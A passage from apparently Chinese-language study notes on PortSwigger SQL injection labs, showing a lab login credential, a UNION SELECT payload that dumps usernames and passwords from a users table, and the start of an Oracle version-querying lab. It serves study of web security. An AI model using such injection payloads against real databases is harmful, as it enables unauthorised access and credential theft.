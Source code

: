 <img src=".\图片\Snipaste_2023-06-03_11-56-40.png" alt="Snipaste_2023-06-03_11-56-40" style="zoom:67%;" />

3、登录

```
administrator:5xfk5dhoux2bficq7xoi
```

#### 官方解

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

### 七、Oracle数据库版本

Lab: SQL injection attack, querying the database type and version on Oracle

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#### 步骤

查询需要带上表（dual表，此表是Oracle数据库中的一个自带表）
